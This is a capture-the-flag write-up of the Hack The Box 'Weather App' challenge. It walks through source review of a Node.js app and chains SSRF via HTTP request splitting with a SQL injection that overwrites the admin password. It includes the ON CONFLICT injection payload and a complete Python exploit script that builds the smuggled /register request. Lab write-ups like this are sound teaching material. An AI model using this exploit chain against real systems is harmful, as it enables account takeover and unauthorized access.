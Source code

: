 # ***writeup : weather app hack the box***
when running the app we are are presented with a screen displaying weather statistics for our current location.


![introduction](pictures/1.png)

</br>
Let's analyze the provided source code to identify any potential vulnerabilities.

</br>

![source code](pictures/2.png)

We were provided with both the Dockerfile and the source code. We will begin by reviewing the source code to understand the overall structure and logic of the application, which appears to be built using Node.js. By examining the routes directory, we can determine the conditions required to obtain the flag.

![login route](pictures/3.png)

- Upon gaining admin access, it is possible to access the content of the '/app/flag' directory. To achieve this, our next step is to investigate how to acquire admin user status. The information related to the admin user is located in the "databases.js" file. The admin's credentials are stored in the database, and the password is randomly generated. Since cracking through brute force is not an option, we will focus on obtaining the password through injection techniques.

- after examination of the registration process, we discovered that the user name and password parameters are not properly sanitized before being sent to the database. This suggests that it may be possible to manipulate the information stored in the database through the registration process.

![register process](pictures/4.png)

at the same time i examinated the process of isadmin function

![admin function](pictures/5.png)

In order to gain admin access, we must determine the admin user's password. The strategy to achieve this is by exploiting a vulnerability in the registration process through injection techniques, which can potentially allow us to obtain or modify the admin user's password. To understand the requirements for accessing the registration interface, we will examine the routes/index.js file.

![register](pictures/6.png)

- I have determined that the registration interface can only be accessed from a local network. To exploit this, we will investigate which areas within the local network are susceptible to Server-side Request Forgery (SSRF) attacks.

- digging more in the source code I found this in "challenge\helpers\WeatherHelper.js"

![ENDPOINT](pictures/7.png)

I revealed that the URL is controllable. Further examination showed that the submission of the URL must be done in the "/api/weather" endpoint.

![post](pictures/8.png)

the objective of this challenge is clear: B
- exploit **SSRF** in at the /api/weather endpoint to make request  to /register
- he /register endpoint accepts a username and password as parameters. By injecting **a SQL injection** payload into these parameters, i will try to change the admin user's password.

Unfortunately, I revealed that the /api/weather endpoint does not support POST requests, so it cannot be used to send a request to 127.0.0.1/register

I was stuck at this moment and didn't know what to do , lately i found out that i haven't read the source code completely. I forgot an important thing the **version** of Node being used

![node version ](pictures/9.png)

well after a lot of research i found out that this node version is vulnerable to [ssrf via response splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
</br>well then the exploit is now clear :
- the **endpoint** param will carry our payload in /api/weather
- the payload will conatin **sql injection**

but before that let's analyse the injection method 

```
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```
we need to find a payload with sql to update the table users and change the password of the admin 
</br> well ON CONFLICT clause is the solution and our payload should look like this 

``` 
INSERT INTO users (username, password) VALUES ('admin', 'admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')
```

so let's now go to the final exploit i built the docker file and launched the app locally
keep in mind that SSRF via response splitting use unicode charachters and this is what we will need in our exploit 

 ```
    "\u0120"; space 
    "\u010D"; \r
    "\u010A"; \n
    "%27"; singleInvertedConverted
    "%22"; double inverted comma
```
and this our final exploit :
```
import requests

url = "http://144.126.228.187:32430"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
User = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
Pass = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(User) + len(Pass) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+User + '&password='+ Pass + '\u010D\u010A\u010D\u010AGET\u0120/?done='

city='hello'

country='hello'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json)
```

endpoint param would look like this : 
```
127.0.0.1 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded  
Content-Length: len(User) + len(Pass) + 19

username=parsedUsername & password=parsedPassword 

GET /?done=
```

executing this code and trying to connect in the login as admin:admin adn BINGOOOOO!! 

![flag](pictures/15.png)